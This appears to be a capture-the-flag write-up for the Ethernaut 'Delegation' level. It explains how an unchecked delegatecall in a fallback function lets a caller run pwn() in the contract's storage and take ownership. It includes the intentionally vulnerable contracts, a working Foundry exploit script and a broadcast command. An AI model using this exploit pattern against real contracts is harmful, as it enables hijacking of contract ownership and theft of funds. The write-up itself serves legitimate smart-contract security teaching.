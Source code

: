 ```yaml
---
title: 'Delegation - The Ethernaut'
cover: https://ethernaut.openzeppelin.com/imgs/Level6.svg
categories: ["ctf"]
tags: ["blockchain","ethernaut"]
date: 2025-09-17
lastmod: 2025-09-17
---
```


## Challenge Overview

This level involves two contracts: `Delegate` and `Delegation`. The goal is to claim ownership of the `Delegation` contract by exploiting its use of `delegatecall` in the fallback function. The vulnerability allows an attacker to execute the `pwn()` function from the `Delegate` contract within the storage context of the `Delegation` contract, thereby changing its owner.

---

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result, ) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

---

## Exploit Explanation

The critical vulnerability lies in the `fallback()` function of the `Delegation` contract:

```solidity
fallback() external {
    (bool result, ) = address(delegate).delegatecall(msg.data);
    if (result) {
        this;
    }
}
```

`delegatecall` is a low-level function that executes code from the target contract (`Delegate`) but uses the storage context of the calling contract (`Delegation`). This means:

1. When we call the `pwn()` function via `delegatecall`, it executes in `Delegation`'s storage context
2. Both contracts have their `owner` variable at the same storage slot (slot 0)
3. The `pwn()` function sets `owner = msg.sender`, which modifies `Delegation`'s owner, not `Delegate`'s owner

The exploit involves:
1. Sending a transaction to the `Delegation` contract with calldata that matches the `pwn()` function signature
2. This triggers the fallback function, which performs a `delegatecall` to the `Delegate` contract
3. The `pwn()` function executes within `Delegation`'s context, changing its owner to our address

---

## Exploit Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Delegation.sol";

contract DelegationSolution is Script {
    Delegation public delegationInstance = Delegation(<YOUR_INSTANCE>);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        // Check current owner before attack
        console.log("Owner before attack:", delegationInstance.owner());
        
        // Trigger the fallback function with pwn() function signature
        // This will execute delegatecall to the Delegate contract's pwn() function
        address(delegationInstance).call(
            abi.encodeWithSignature("pwn()")
        );
        
        // Verify the owner has been changed
        console.log("Owner after attack:", delegationInstance.owner());
        console.log("My address:", vm.envAddress("MY_ADDRESS"));
        
        vm.stopBroadcast();
    }
}
```

---

## Proof of Concept (PoC)

Execute the exploit with Foundry:

```bash
forge script script/DelegationSolution.s.sol --rpc-url $SEPOLIA_URL --broadcast
```